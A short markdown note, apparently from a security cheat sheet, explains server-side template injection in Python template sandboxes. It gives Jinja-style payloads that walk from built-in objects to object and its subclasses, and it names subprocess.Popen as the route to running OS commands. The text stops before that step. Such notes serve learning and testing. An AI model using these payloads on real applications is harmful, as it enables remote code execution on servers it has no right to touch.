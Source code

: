 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>
```

2. Finding subclasses to abuse
```
{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>,..., <class 'subprocess.Popen'>, ... ]
```

The subprocess.Popen class allows us to run os commands and is of interest.
